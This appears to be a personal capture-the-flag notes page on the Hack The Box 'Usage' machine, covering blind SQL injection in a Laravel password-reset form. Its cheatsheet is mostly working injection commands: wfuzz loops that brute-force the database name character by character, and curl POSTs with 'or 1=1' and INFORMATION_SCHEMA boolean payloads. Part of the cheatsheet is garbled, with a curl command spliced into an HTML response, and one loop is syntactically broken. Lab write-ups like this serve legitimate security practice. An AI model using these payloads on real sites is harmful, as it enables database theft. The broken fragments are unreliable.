 # Usage \[Easy]

## Report

A PHP Laravel site is prone to blind SQLi in the 'Forgot Password' page at the 'email' parameter.  The admin/user creds are exposed which we did not achieve due to inability to follow redirects via curl and hence decided ffuf also would not either.

Intruder did but it was too slow to make any noticable progress

{% embed url="https://0xdf.gitlab.io/2024/10/19/htb-editorial.html" %}

## Cheatsheet

```
laravel php
admin.usage.htb vhost
token field whenever login is being performed
fuzzing forget-password
[Status: 301, Size: 178, Words: 6, Lines: 8

for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr(database(),$i,1)))=FUZZ --+";done 

for i in $(seq 1 10); wfuzz -c -z range,32-127  -b "XSRF-TOKEN=eyJpdiI6ImJDMDhuWEdORUhxYVo3ZE9tSHhUM3c9PSIsInZhbHVlIjoiMHVxc3FqLzcvcFBQcExFWXhRN0Z4YTE4aHp1VnJnTEtXOTZWWGZYbjBWRUJBWUc0VjhJSHh6RThYNWZDYUtPY0RVYXJRVlpBU09SV1laY0M0eWtPMUZBdFJ1Qk1DZDRheFUySUtHVC9BOXNNbmlCWTVZNGZLVzhIZ1pBbXpoYmMiLCJtYWMiOiJjYTIyY2I2OTM4YTI2MTNkODlhZmJkOWIxMzljMjA2ZmFkMmUyNGMwMGQ5MThjYWU0M2FiMGY4MWI0ZjEyNmVjIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjE3cGI3bjR5Y3psMkUvUWJ0TGw5V2c9PSIsInZhbHVlIjoiZi9xY3NuR3ErVXVWMzlFcXROVGZxQkNTRERJMHB0bGNZZ0UxcVFZZGIycktmWFRaZWIrNmJKcy9RZEhqOEtpVmFFb1piWXB4MVMrS01nN2swR2ZDK3pZQjdMR1VEY0p5a3c1SW9rOXJFcTdzbDdNTm54RnoyOGM0U1kyZ2xHaWkiLCJtYWMiOiIyZTQxNmYyZTc3OWU3NjlhMzE1ZjgyOGJkZDg3M2FiYzFkOWM1ODljNTQxODhhZTNhZTk0MzRhMDU0OTg4MDcwIiwidGFnIjoiIn0%3D" -u http://10.10.11.18/forget-password:80 -X POST -d "_token=C9PYLY5AYByiQPK35kxcSJb4rYu9VLJulIGOe1RH&email=x OR (ascii(substr(database(),$i,1)))=FUZZ-- -'" --hw=12



Once we broke the sql identify the or code that actlly makes it work properly

curl --insecure -b "XSRF-TOKEN=eyJpdiI6ImJDMDhuWEdORUhxYVo3ZE9tSHhUM3c9PSIsInZhbHVlIjoiMHVxc3FqLzcvcFBQcExFWXhRN0Z4YTE4aHp1VnJnTEtXOTZWWGZYbjBWRUJBWUc0VjhJSHh6RThYNWZDYUtPY0RVYXJRVlpBU09SV1laY0M0eWtPMUZBdFJ1Qk1DZDRheFUySUtHVC9BOXNNbmlCWTVZNGZLVzhIZ1pBbXpoYmMiLCJtYWMiOiJjYTIyY2I2OTM4YTI2MTNkODlhZmJkOWIxMzljMjA2ZmFkMmUyNGMwMGQ5MThjYWU0M2FiMGY4MWI0ZjEyNmVjIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjE3cGI3bjR5Y3psMkUvUWJ0TGw5V2c9PSIsInZhbHVlIjoiZi9xY3NuR3ErVXVWMzlFcXROVGZxQkNTRERJMHB0bGNZZ0UxcVFZZGIycktmWFRaZWIrNmJKcy9RZEhqOEtpVmFFb1piWXB4MVMrS01nN2swR2ZDK3pZQjdMR1VEY0p5a3c1SW9rOXJFcTdzbDdNTm54RnoyOGM0U1kyZ2xHaWkiLCJtYWMiOiIyZTQxNmYyZTc3OWU3NjlhMzE1ZjgyOGJkZDg3M2FiYzFkOWM1ODljNTQxODhhZTNhZTk0MzRhMDU0OTg4MDcwIiwidGFnIjoiIn0%3D" -X POST --data "_token=C9PYLY5AYByiQPK35kxcSJb4rYu9VLJulIGOe1RH&email=j@gmail.com' or 1=1;-- -';" http://usage.htb/forget-password

IF email does not exist
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="refresh" content="0;url='http://usage.htb/forget-password'" />itle>Redirecting to http://usage.htb/forget-password</title>6l.com' or (select count(*) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='usage_blog')=15;-- -';TOKEN=eyJpdiI6ImJDMDhuWEdORUhxYVo3ZE9tSHhUM3c9PSIsInZhbHVlIjoiMHVxc3FqLzcvcFBQcExFWXhRN0Z4YTE4aHp1VnJnTEtXOTZWWGZYbjBWRUJBWUc0VjhJSHh6RThYNWZDYUtPY0RVYXJRVlpBU09SV1laY0M0eWtPMUZBdFJ1Qk1DZDRheFUySUtHVC9BOXNNbmlCWTVZNGZLVzhIZ1pBbXpoYmMiLCJtYWMiOiJjYTIyY2I2OTM4YTI2MTNkODlhZmJkOWIxMzljMjA2ZmFkMmUyNGMwMGQ5MThjYWU0M2FiMGY4MWI0ZjEyNmVjIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjE3cGI3bjR5Y3psMkUvUWJ0TGw5V2c9PSIsInZhbHVlIjoiZi9xY3NuR3ErVXVWMzlFcXROVGZxQkNTRERJMHB0bGNZZ0UxcVFZZGIycktmWFRaZWIrNmJKcy9RZEhqOEtpVmFFb1piWXB4MVMrS01nN2swR2ZDK3pZQjdMR1VEY0p5a3c1SW9rOXJFcTdzbDdNTm54RnoyOGM0U1kyZ2xHaWkiLCJtYWMiOiIyZTQxNmYyZTc3OWU3NjlhMzE1ZjgyOGJkZDg3M2FiYzFkOWM1ODljNTQxODhhZTNhZTk0MzRhMDU0OTg4MDcwIiwidGFnIjoiIn0%3D" -X POST --data "_token=C9PYLY5AYByiQPK35kxcSJb4rYu9VLJulIGOe1RH&email=j@gmail.com" http://usage.htb/forget-password

```

## Loot

curl sort page xpired - refresh session, token cookies

ffuf does work if curl sorted then peace

Well i couldnt sort the curl bit but burp intruder can follow redirecta however its really slow and if other machines are involved then ofc we can focus on them while this goes on.

Can turbo intruder follow redirects tho?

{% embed url="https://stackoverflow.com/questions/18474690/is-there-a-way-to-follow-redirects-with-command-line-curl" %}

using raw request incase missing headers were the problem

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>
